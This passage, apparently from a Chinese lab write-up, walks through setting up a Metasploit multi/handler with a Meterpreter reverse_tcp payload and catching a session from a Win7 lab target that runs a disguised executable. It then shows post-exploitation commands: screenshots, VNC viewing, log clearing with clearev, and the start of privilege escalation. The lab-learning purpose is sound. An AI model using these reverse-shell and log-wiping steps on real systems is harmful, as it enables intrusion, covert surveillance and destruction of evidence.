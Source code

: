 ```# msfconsole ```
> Metasploit开启监听，等待🐔🐔云中君点击我们的冰锋战神🐴🦄上线。。当然要自己去点啦，毕竟是靶机。

#### a 打开MSF的监听模块handler
```# use exploit/multi/handler```

#### b 反弹一个Shell
```# set payload windows/meterpreter/reverse_tcp```

#### c 设置监听的IP地址
``` set LHOST 192.168.66.133```

#### d 设置监听的端口
```# set LPORT 8888```

#### e 开始监听

```# exploit```

![](https://gitee.com/enomothem/myblogphoto/raw/master/img/image-20201207220039969.png)

## Dx 攻击 *Exploit*

![](https://gitee.com/enomothem/myblogphoto/raw/master/img/image-20201207222022961.png)

不得不说，defender是真强，直接给干掉了，所以这就是我电脑只留一个Defender的原因。

![](https://gitee.com/enomothem/myblogphoto/raw/master/img/image-20201207223217215.png)

#### a 点一下这个Girl

![](https://gitee.com/enomothem/myblogphoto/raw/master/img/image-20201207223643747.png)

Okay，立马上线，Win7那边会卡一下，如果卡住了，耐心等待一下，这边已经OK。

#### b 简单玩玩后渗透

我们可以截图

```screenshot```

![](https://gitee.com/enomothem/myblogphoto/raw/master/img/image-20201207224100660.png)

看看远程桌面啊

```run vnc```

![](https://gitee.com/enomothem/myblogphoto/raw/master/img/image-20201207224337469.png)

清除日志。

```clearev```

不行，权限不够

```shell```

#### c 提权

1 查看当前权限

```whoami /groups```

![](https://gitee.com/enomothem/myblogphoto/raw/master/img/image-20201207225219024.png)

```
